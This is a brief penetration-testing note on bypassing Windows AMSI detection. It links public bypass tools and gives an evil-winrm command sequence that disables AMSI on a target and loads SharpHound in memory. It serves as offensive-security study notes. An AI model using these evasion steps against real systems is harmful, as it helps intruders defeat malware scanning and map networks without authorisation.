 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#exploitation
## Testing for Amsi Bypass:

- https://github.com/rasta-mouse/AmsiScanBufferBypass

## Amsi-Bypass-PowerShell

- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

## using evil-winrm

When you have a winrm shell with evil-winrm you can use the bypass amsi module to bypass amsi detection's on your target: 

```
evil-winrm -i 172.16.1.1 -u afsimmons -p "" -e /opt/privesc
Bypass-4MSI
menu
Invoke-Binary /opt/privesc/SharpHound.exe
```

## Resources:

- https://blog.f-secure.com/hunting-for-amsi-bypasses/
- https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
- https://github.com/cobbr/PSAmsi/wiki/Conducting-AMSI-Scans
- https://slaeryan.github.io/posts/falcon-zero-alpha.html
- https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
